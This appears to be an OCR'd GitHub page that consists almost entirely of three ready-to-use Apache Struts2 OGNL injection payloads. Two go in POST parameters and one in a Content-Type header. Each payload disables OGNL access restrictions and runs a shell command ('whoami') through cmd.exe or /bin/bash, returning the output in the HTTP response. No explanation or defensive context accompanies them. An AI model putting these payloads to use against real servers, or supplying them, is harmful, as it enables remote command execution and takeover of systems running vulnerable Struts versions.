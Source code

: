 ###### 1 POST POC

```
name=${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

###### 2 POST POC [Greaty] 固定类型地址

```
name=${(#dm=@\u006Fgnl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#ef='whoami').(#iswin=(@\u006Aava.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#efe=(#iswin?{'cmd.exe','/c',#ef}:{'/bin/bash','-c',#ef})).(#p=new \u006Aava.lang.ProcessBuilder(#efe)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&age=1&__checkbox_bustedBefore=true&description=2
```

###### 3 HEAD POC [UNKONW]

```
Content-Type: %{(#szgx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.close())}
```
---
